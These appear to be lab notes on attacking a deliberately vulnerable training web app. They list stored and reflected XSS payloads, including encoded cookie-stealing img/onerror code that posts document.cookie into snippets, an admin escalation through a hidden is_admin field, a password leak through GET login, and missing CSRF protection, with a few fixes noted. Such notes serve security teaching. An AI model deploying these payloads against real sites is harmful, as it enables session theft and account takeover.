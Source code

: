# Snippets

Makes a new snippet with "x" as the contents:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet=x"'>bet you can't click me</b>
```

Makes a new snippet that writes the users cookie:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet="+document.cookie'>you can't click this, can you?</b>
```

```html
<img src=x onerror='alert(&quot;xss&quot;)'>
```

```js
exfil=document.createElement("img");
exfil.src="newsnippet2?snippet="+document.cookie;
document.appendChild(exfil);
```

```text
<img src=x onerror='eval("exfil=document.createElement(\"img\");exfil.src=\"newsnippet2?snippet=\"+document.cookie;document.body.appendChild(exfil);")'>
```

```text
gotcha!+%3Cimg+src%3Dx+onerror%3D%27eval%28%22exfil%3Ddocument%2EcreateElement%28%5C%22img%5C%22%29%3Bexfil%2Esrc%3D%5C%22newsnippet2%3Fsnippet%3D%5C%22%2Bdocument%2Ecookie%3Bdocument%2Ebody%2EappendChild%28exfil%29%3B%22%29%27%3E
```


# Profile:

### Profile Color

Need to break out of `style='{color}'` context.

### Homepage

Not restricted to actual URL, can set to `%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E` for stored XSS

```text
' onclick='eval("exfil=document.createElement(\"img\");exfil.src=\"newsnippet2?snippet=\"+document.cookie;document.body.appendChild(exfil);")'
```

### Admin

Hidden `is_admin=True` grants admin privilege
- show how to use ZAP to intercept and modify request (or, even Firefox tools to add hidden input)
- alternative is to brute-force the prefixed checksum
- defense: only use stored property, not the query property

# Login

Login is `GET` and password remains displayed in the address bar.  Referer leaks password!


# General

Reflected XSS on error message "page not found", e.g. `/:id/%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E`

- fix is to edit `resources/error.gtl` to append `:text` to the message template-slot

No CSRF protection anywhere.

`feed.gtl` is public, reveals UIDs.
- also vulnerable to stored XSS that exploits JSONP


